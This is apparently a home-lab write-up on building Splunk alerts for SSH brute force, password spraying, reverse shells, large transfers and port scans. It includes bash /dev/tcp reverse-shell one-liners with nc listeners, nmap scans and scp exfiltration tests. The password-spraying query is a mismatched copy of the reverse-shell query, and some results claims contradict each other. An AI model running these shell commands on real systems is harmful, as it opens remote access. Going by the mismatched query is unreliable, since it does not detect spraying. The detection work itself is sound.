# Creating Alerts

This section documents the alerting framework built in Splunk to detect key attack stages within a controlled lab environment.This alert will follow a structured work flow

## Alert workflow 
**Objective → SPL → Threshold → Severity → Action.**

The goal is to transform raw log data (from UFW, syslog, and auth logs) into actionable intelligence capable of detecting brute force attacks, password spraying, reverse shells, large file transfers, and reconnaissance scans. Through this process, Splunk evolved from a log aggregator into a fully functional SIEM, actively correlating attacker behavior and triggering alerts in real time.


# Alert : SSH Brute Force

**Objective:** Detect repeated failed SSH logins from the same IP (common amongst brute force).

## SPL
```
index=main source="/var/log/auth.log" "Failed password"
| rex field=_raw "Failed password for (?:invalid user\s)?(?<user>\S+) from (?<src_ip>\d+\.\d+\.\d+\.\d+) port (?<src_port>\d+)"
| bucket _time span=5m
| stats count AS fail_count BY src_ip, user, _time
| where fail_count >= 10
| sort - fail_count

```

- **search ... "Failed password"** → pull only SSH failures from the auth.log

- **rex field(?<user>…), (?<src_ip>…), (?<src_port>…)...** - extract username , attacker IP, and port

- **bucket .. span=5m** → group events into 5-minute time windows

- **stats ... BY src_ip, user, _time** → count failures per IP → user per window.

-  **where fail_count >= 10** → trigger threshold

- **sort - fail_count** → shows the most incidents at the top





## **Threshold**
 `fail_count >= 10` within 5 minutes (per `src_ip` + `user`)

## Severity (Failed Logins)
- **Medium:** 10 - 29 logins
- **High:** 30 - 49 or targeting root
- **Critical:** >= 50 or more login attempts followed by a successful login


## Alert Configuration

This alert runs every 5 minutes to detect repeated SSH login failures.

- **Type:** Scheduled (cron)
- **Time range:** Last 15 minutes
- **Cron:** `*/5 * * * *`
- **Trigger condition:** Number of results > 0 
- **Mode:** For each result (Lab purposes)
- **Throttle:** suppress by `src_ip` for 1 minute. 
- **Action:** Add to Triggered Alerts



## Action:
Create a notable, throttle by IP (15 min), enrich with GeoIP/ASN, and reset compromised accounts

## Triggered Alert result



Splunk detects more than 10 failed SSH attempts from a single IP , it triggers and logs it in the "Triggered alerts" dashboard. 

## Tuning:
Exclude trusted IPs, adjust thresholds for VPN/jump-boxes, run every 5 minutes
(`earliest=-15m@n latest=now`)


# Alert : Password Spraying

**Objective:** Detect multiple IPs attempting logins against the same account (spray pattern).

## SPL
```
index=main (source="/var/log/kern.log" OR source="/var/log/syslog")
| rex "SRC=(?<src_ip>\d{1,3}(?:\.\d{1,3}){3})"
| rex "DST=(?<dst_ip>\d{1,3}(?:\.\d{1,3}){3})"
| rex "SPT=(?<spt>\d+)" | rex "DPT=(?<dpt>\d+)" | rex "PROTO=(?<proto>\S+)"
| stats count AS events earliest(_time) AS start latest(_time) AS end values(proto) AS proto_list BY src_ip dst_ip dpt
| eval duration_s = end - start
| where events > 100 AND duration_s > 300
| convert ctime(start) ctime(end)
| sort - duration_s
| table src_ip dst_ip dpt proto_list events duration_s start end
```
- **rex**  → extract `user` and `src_ip`
- **bucket span = 10m**  → spray a lot slower then brute force so events will be grouped into 10 minutes windows rather than 5 from the brute force.
- **dc(src_ip)** → plenty IPS,  → one user.



Detected password spray pattern showing multiple users targeted within a 10-minute window. 


## Threshold
`distinct_ips >= 5` AND `total_attempts >=10` within 10 minutes , with max attempts per user <=3.

## Severity
- **High:** confirmed spray pattern
- **Critical:** followed by a successful attempt or `Accepted password`.

## Alert Configuration

This alert runs every 5 minutes to detect repeated SSH login failures.

- **Type:** Scheduled (cron)
- **Time range:** Last 10 minutes
- **Cron:** `*/5 * * * *`
- **Trigger condition:** Number of results > 0 
- **Mode:** Once / Digest (best for grouping lots of hits)
- **Throttle:** suppress by `src_ip` for 5 minutes. 
- **Action:** Add to Triggered Alerts, Would be escalated if critical. 



The triggered alert confirming the detection of a password spray attempt in Splunk.



All of the users that were probed by the spray pattern appear along with the IP address. 


# Alert: Reverse Shell

**Objective:** Detect outbound connections from internal hosts to an attacker that persist for a long time and generate many events (indicative of reverse shell / C2). 


## SPL 
```
index=main (source="/var/log/kern.log" OR source="/var/log/syslog")
| rex "SRC=(?<src_ip>\d{1,3}(?:\.\d{1,3}){3})"
| rex "DST=(?<dst_ip>\d{1,3}(?:\.\d{1,3}){3})"
| rex "SPT=(?<spt>\d+)" | rex "DPT=(?<dpt>\d+)" | rex "PROTO=(?<proto>\S+)"
| stats count AS events earliest(_time) AS start latest(_time) AS end values(proto) AS proto_list BY src_ip dst_ip dpt
| eval duration_s = end - start
| where events > 100 AND duration_s > 300
| convert ctime(start) ctime(end)
| sort - duration_s
| table src_ip dst_ip dpt proto_list events duration_s start end
```
- **index=main (source=)** → search kernel, syslog and auth logs where connection and firewall events appear

- **rex "SRC=..."/"DST=..."** → extract source and destination IPs.

- **rex "SPT=/DPT="** → extract the source / destination ports to identify listener ports

- **stats ... By src_ip dst_ip dpt** → group events by origin/destination/port and compute the counts / time range.

- **eval duration_s = end - end - start** → compute session duration in seconds

- **where events > 100 AND duration_s > 300** → threshold:many events and duration >= 5 minutes

- **convert ctime(...) & table ...** → format timestamps and present final table.


## Threshold
- **Primary:** `duration_s >= 300` **AND** `events > 100`


## Severity
- **High:** A long session (>5 min) or consecutive events (> 100 events)
- **Critical:** Long session + outgoing connections to strange ports / suspicious processes detected
- **Medium:** Long session from a known admin/jump host ( to avoid false positives)


## Alert Configuration
- **Type:** Scheduled (cron)
- **Time range:** Last 15 minutes
- **Cron:** `*/5 * * * * `
- **Mode:** For each result; use `once` for large volumes.
- **Throttle:** by `src_ip` for 15 minutes
- **Actions:** Add to triggered events. Different levels of severity.


## Reverse Shell Simulation 

Two reverse shells were launched simultaneously from the victim to the attacker on TCP ports `9001` and `4444` to verify the detection rule could identify multiple concurrent reverse shells. The Splunk alert successfully detected both long-lived, high-volume sessions. 



```
nc -vlnp 4444
nc -vlnp 9001
```




```
bash -i >& /dev/tcp/192.168.64.2/4444 0>&1
bash -i >& /dev/tcp/192.168.64.2/9001 0>&1

```

Both listeners show inbound connections from the victim, confirming two active reverse shells:






### Detection

Splunk ingested kernel/syslog events and flagged unusually long, high-volume sessions between the victim and the attacker. The alert was triggered to to the thresholds we put in place (duration / number of events).

### Port 9001 vs 4444 analysis 

Both ports show outgoing connections from 192.168.64.3 (victim) to 192.168.64.2 (attacker) — a clear indicator of reverse shells.





Splunk event lines show outbound traffic from the victim `192.168.64.3` to the attacker `192.168.64.2` on port **4444** and  entries are repeated over time, indicating a sustained interactive session.


# Alert : Large File transfer

## Objective
To detect flows that transfer >= 500 MB (lab threshold) from internal host to external host (possible exfiltration) and vice versa. 

## SPL
```
index=main (source="/var/log/kern.log" OR source="/var/log/syslog") "UFW AUDIT" PROTO=TCP
| rex "SRC=(?<src_ip>\d{1,3}(?:\.\d{1,3}){3})"
| rex "DST=(?<dst_ip>\d{1,3}(?:\.\d{1,3}){3})"
| rex "SPT=(?<src_port>\d+)" | rex "DPT=(?<dst_port>\d+)"
| rex "LEN=(?<len_bytes>\d+)"
| stats count AS packets sum(len_bytes) AS total_bytes earliest(_time) AS start latest(_time) AS end BY src_ip dst_ip src_port dst_port
| eval total_mb = round(total_bytes / (1024*1024), 2)
| eval duration_s = end - start
| eval src_internal = cidrmatch("192.168.64.0/24", src_ip)
| eval dst_internal = cidrmatch("192.168.64.0/24", dst_ip)
| eval direction = case(
    src_internal==1 AND dst_internal==0, "Outbound (Internal → External)",
    src_internal==0 AND dst_internal==1, "Inbound (External → Internal)",
    1==1, "Internal/Other"
  )
| where total_mb >= 500
| eval phase = if(like(direction, "Outbound%"), "possible_exfiltration", "possible_large_transfer")
| convert ctime(start) ctime(end)
| table start end src_ip dst_ip src_port dst_port packets total_mb duration_s direction phase
| sort - total_mb
```

 **index=main (source=...) "UFW AUDIT"** → filters firewall and kernel logs for network traffic

**rex SRC/DST/SPT/DPT/Len** → extracts source / destination IPs , ports , and packet size

**stats sum(len_bytes)** → totals transferred bytes per connection 

**eval total_mb** → convert bytes to megabytes

**cidrmatch()** → identifies internal vs external IPS

**case()** → labels flow as Outbound, Inbound , Internal

**where total_mb >= 500** → filters only large transfers (>= 500 MB)

**eval phase** →marks events as possible_exfiltration or large_transfer

**table /sort** → formats and orders final results by largest size 

## Thresholds and Severirt 
- **Trigger:** `total_mb >= 500`
- **Severity:** Medium = 500 MB - 2 GB , High: 2 GB - 10 GB , Critical: >10 GB or transfer to suspicious IPs/ASN or after privilege escalation


## Alert configuration
- **Type:** Scheduled 
- **Search time windows:** earliest=60m
- **Cron:** */5 * * * * (run every 5 minutes)
- **Throttle:** by `src_ip` 15-30 minutes to reduce noise

## Lab Simulation 

A 600 MB random data file was generated on Kali and transferred between both hosts using scp, simulating data exfiltration and inbound intrusion attempts.

```
# Generating the 600 MB file

dd if=/dev/urandom of=~/testfile_600mb bs=1M count = 600

# Outbound transfer (Kali → Ubuntu)
scp 600_Mibfile elyjaiah@192.168.64.2:/home/elyjaiah

# Inbound (Ubuntu → Kali)
scp 600_Mibfile elyjaiah@192.168.64.3:/home/elyjaiah
```






## Alert Configuration



### Settings
- **Type:** Scheduled
- **Cron:** */5 * * * * 
- **Time Range:** Last 15 minutes
- **Trigger Condition:** Number of results > 0
- **Mode:** For each result
- **Throttle:** 10 minutes per `src_ip`
- **Severity:** Medium

## Results

Splunk successfully detected both inbound / outbound file transfers from the above 500 MB Threshold. **Inbound** was flagged as `possible_intrusion` and **Outbound** was flagged as `possible_exfiltration`.

Both triggered alerts appeared  within minutes of the file transfer completion.



- Two separate alerts titled **"Data Exfiltration - Large Transfer(>= 500 MB)"**
- They were both classified as **Medium Severity**, scheduled on a 5 minute interval, and throttled by `src_ip` to prevent redundant notifications.

## Summary
This alignment between the **Splunk search results** and the **Triggered Alerts output** validates that the **UFW + syslog ingestion pipline** is operating correctly. This demonstrates Splunk's ability to detect large-scale data movements across internal hosts with high precision. 

# Alert: Port Scan / Reconnaissance 
## Objective
Detect hosts performing horizontal or vertical port scans (many destination ports or many destination IPs in a short time window)

## SPL 
```index=main (source="/var/log/kern.log" OR source="/var/log/syslog") "UFW AUDIT" PROTO=TCP
| rex "SRC=(?<src_ip>\d{1,3}(?:\.\d{1,3}){3})"
| rex "DST=(?<dst_ip>\d{1,3}(?:\.\d{1,3}){3})"
| rex "DPT=(?<dpt>\d+)"
| bin _time span=1m
| stats dc(dpt) AS distinct_ports count AS events values(dpt) AS ports_by_src BY src_ip _time
| where distinct_ports >= 20 
| eval severity=case(distinct_ports>=100,"High", distinct_ports>=50,"Medium", 1==1,"Low")
| convert ctime(_time)
| table _time src_ip distinct_ports events severity ports_by_src
| sort - distinct_ports
```
- **index=main(source=...)** → filter kernel / syslog UFW audit lines where TCP connection attempts appear

- **rex SRC/DST/DPT** → extract source IP , destination IP and destination port

- **bin_time span=1m** → bucket events into 1-minute windows to detect burst

- **stats dc(dpt), count, values(dpt)** → compute number of distinct ports touched , total events, and list of ports per source_IP per window
- **where distinct_ports >= 20 → surface only windows likely to be scanning activity

## Threshold and Severity
- **Trigger:** `distinct_ports >= 20` or `event >= 50` in a 1-minute bucket.

- **Severity:** `High:` distinct_ports >= 100, `Medium:` 50 <= distinct_ports <=100 , `Low:` 20 <= distinct_ports <50

## Alert Configuration


- **Type:** Port Scan - Reconnaissance
- **Description:** Detect high-speed port scans
- **Alert type:** Scheduled
- **Time Range:** Last 15 minutes
- **Cron Expression:** `*/5 * * * *`
- **Trigger conditions:** Trigger for each result when number of results is greater than 0. 

- **Throttle:** Enabled , suppressing `src_ip`
- **Trigger Actions:** Add to Triggered alerts with a high severity. 

## Lab Simulation
To simulate the reconnaissance behavior and validate the alert detection, the following commands were executed from attacker to victim. 

```
# SYN / Half Open scan
nmap -sS 192.168.64.3


# Full port scan across all ports
nmap -p- -T4 192.168.64.3
```






The SYN or half-open scan identifies the few open ports 

The first scan (**SYN SCAN**) shows that it discovered about 1,000 open ports on the target , triggering a **High-Severity alert** in Splunk due to the high number of distinct ports. The second scan (**-p-**) scan represents the full TCP sweep across all 65535 ports. This alert accurately classifies reconnaissance activity based on the intensity of the scan. 



The Triggered alerts dashboard confirms that multiple **Port Scan - Reconnaissance** detections were successfully generated during the lab. 

# Summary
Across all five alerts, Splunk successfully detected distinct stages of an attack lifecycle - from initial access (Brute Force, Spraying) to execution and persistence (reverse shell), followed by data exfiltration and network reconnaissance. Each attack was validated with real attack simulation from Kali against the Ubuntu server, showing accurate thresholds, minimal false positives, and clear visual correlation with the triggered alerts dashboard. This confirms that the Splunk alert pipeline was correctly configured to capture both inbound and outbound activity, effectively bridging detection, analysis , and response. 
